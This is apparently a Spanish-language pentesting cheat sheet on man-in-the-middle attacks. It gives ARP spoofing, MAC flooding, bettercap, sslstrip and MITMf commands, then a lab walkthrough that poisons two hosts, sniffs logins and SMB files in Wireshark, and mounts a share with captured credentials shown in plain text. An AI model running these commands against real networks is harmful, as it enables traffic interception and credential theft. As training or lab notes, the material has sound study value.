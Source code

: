 ```yaml
---
title: 'MITM'
description: ''
pubDate: 'May 12 2023'
slug: 'mitm'
---
```


### ETERCAP

```bash
ettercap -G

# add to target 1: 192.168.10.5
# add to target 2: 192.168.10.1

# select apr poisoning
# Check if poisoning it ios working
arp -a
# before -> attack MAC address is correct
# after -> MAC address is our MAC address (attacker)

# le damos a view->connections para ver el trafico interceptado
# si funciona me cago!!!
```

### CAIN & ABEL

selecionar interface
modo promiscuo
Start/Stop sniffer

### Macof

activar el forwarding

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward

sudo macof -i wlan0 -n 32

# ya interceptamos pero el gateway todavia le envia paquetes a la victima
sudo arpspoof -i wlan0 -t target_ip 192.168.0.1

# para completar el ataque
sudo arpspoof -i wlan0 -t 192.168.0.1 target_ip

# ahora podemos olfatear el trafico con wireshark
echo 1 > /proc/sys/net/ipv4/ip_forward

```

### Bettercap

Primero buscamos nuestros objetivos en la red wifi

```bash
bettercap -I wlan0 --no-spoofing --no-target-nbns

# ponemos el objetivo sino hace spoofing a toda la red

bettercap -I wlan0 -T target_ip

# si queremos especificar otro gateway

bettercap -I wlan0 -G 192.168.0.1 -T target_ip

# permite parsear y listar los paquetes

bettercap -I wlan0 -T target_ip -X -P "HTTPAUTH, URL, FTP, POST"

# FOR MIMT option
bettercap -I tap0 -X -G 10.10.10.15 -t 10.10.10.200
```

### dsniff

interceptamos data

```bash
dsniff -i wlan0
```

### ettercap y sslstrip

```bash

echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 8080

# Iniciamos sslstrip, para que escuche en el 8080
sslstrip -a -f -l 8080 -w file


### con este comando habilitamos sslstrip, si la victima intenta abrir un https lo veremos arriba
bettercap -G gateway -T target_ip --proxy-https
```

### MITM

Herramienta moderna para bypass HSTS

```bash
python mitmf.py .i wlan0 --spoof --arp --dns --hsts --gateway gateway_ip --targets target_ip

```

### Poisoning and sniffing

```bash
# metodo 1
arp-scan -I wlan0 192.168.5.0/24

# metodo 2
nmap -PR -sn 192.168.5.*

```

ARP es un protocolo utilizado para la resolución de direcciones de la capa de red (dirección IP) en direcciones de la capa de enlace (dirección MAC). ARP funciona en la Capa 2 del modelo OSI, por lo que sólo se puede utilizar para descubrir hosts que se encuentran en la misma subred.

Se enviaron varios paquetes ARP a la dirección Broadcast ff:ff:ff:ff:ff:ff. Sin embargo, sólo se obtuvieron respuestas ARP de hosts vivos: 172.16.5.1, 172.16.5.5, 172.16.5.6 y 172.16.5.10.

### Usando DNS server

Ya tenemos una lista de hosts activos. Ahora necesitamos consultar cada host activo para identificar qué host está ejecutando el servidor DNS.

El puerto DNS es TCP/53 para transferencia de zona y UDP/53 para consultas DNS. Todo lo que necesitamos hacer es comprobar si hay algún host con el puerto TCP 53 abierto.

El siguiente comando le dice a nmap que utilice un TCP Connect Scan al puerto 53 para los hosts 172.16.5.1, 172.16.5.5, 172.16.5.6, y 172.16.5.10

```bash
nmap -sT -p53 172.16.5.1,5,6,10

```

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1688150496/5_xcnqp9.webp" alt="wireshark">

_Nota:_ Debe tenerse en cuenta que los escaneos DNS para puertos TCP pueden a veces no coincidir con los puertos reales abiertos en el objetivo, como se ve a veces en el caso en compromisos del mundo real, dependiendo de la conectividad de red, etc. Por lo tanto, asegúrese de ejecutar los escaneos DNS varias veces para asegurarse de que está recogiendo TCP/53 como abierto.

### Nombre de Dominio

Después de descubrir un par de hosts vivos y también la dirección del Servidor DNS, nuestro siguiente paso es identificar el Nombre de Dominio de la red. Para ello, podemos realizar una búsqueda inversa utilizando nslookup o dig.

```bash
# metodo 1
nslookup

server 192.168.5.7

192.168.5.3

# metodo 2

dig @192.168.5.7 -x 192.168.5.3 +nocookie

# axfr
dig @192.168.5.7 scanme.com -t AXFR +nocookie

```

### Identificar gateway por defecto

```bash
traceroute 10.10.10.10 -m 5

# or
traceroute 10.10.10.10 -m 5 -T

# or
route
```

_Nota:_ Para poder husmear paquetes usando arpspoof, necesitarás usar la misma puerta de enlace por defecto que usan tus objetivos puedes ver los comandos de arriba.

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1688151233/0_y1wvzh.webp" >

### Capturar el trafico entre 172.16.5.5 y 172.16.5.1

```bash
# Habilitamos ip_forwarding en nuestro sistema
echo 1 > /proc/sys/net/ipv4/ip_forward

# los dos comandso de abajo al mismo tiempo
arpspoof -i eth1 -t 172.16.5.5 -r 172.16.5.1

arpspoof -i eth1 -t 172.16.5.1 -r 172.16.5.5
```

los comandos de arriba van a mandar paquetes arp hasta envenenar la tabla ARP en ambos hosts.

A continuación, para ver si hay imágenes en el tráfico entre estos hosts, vamos a lanzar driftnet mientras se ejecutan arspoof.

```bash
driftnet -i eth1

```

Capturamos el tráfico por alrededor de 5m y lo guardamos en un archivo.

### Análizamos el archivo capturado.

Para tener una visión general del tipo de tráfico que hemos capturado, tenemos que abrir el archivo de captura Task5.pcap y luego desde el menú: _Statistics > Protocol Hierarchy_ para tener una idea de que clase de tráfico estamos viendo.

```bash
#FILTROS WIRESHARK
http and ip.addr == 172.16.5.5

###
http.request.method == "GET"
# follow HTTP Stream

###
http.request.method == "POST"
# follow HTTP Stream

# Repetir el proceso hasta encontrar algo interesante.
http.location == "/login_success.php"
# Recolectar smb

smb.file
# Desde el File menu, seleccionamos Export Objects > SMB
```

En la misma ventana (Follow HTTP Stream), haga clic en el botón llamado Filter Out This stream, para que Wireshark excluya temporalmente esta petición de los paquetes restantes, para que pueda continuar su análisis.

### Recolectamos las fotos

Manteniendo la captura task6.pcap abierta en Wireshark, vamos a seleccionar en el menú Archivo: _Export Objects > HTTP_

### Filtro SMB

Probando el acceso a la parte UNC: \\172.16.5.10\finance, podemos usar el comando _mount_.

```bash
# Credenciales recuperadas de los anteriores scans.

mount -t cifs -o user=almir,password=Corinthians2012,rw,vers=1.0 //172.16.5.10/finance /tmp/finance

ls -l /tmp/finance/
```
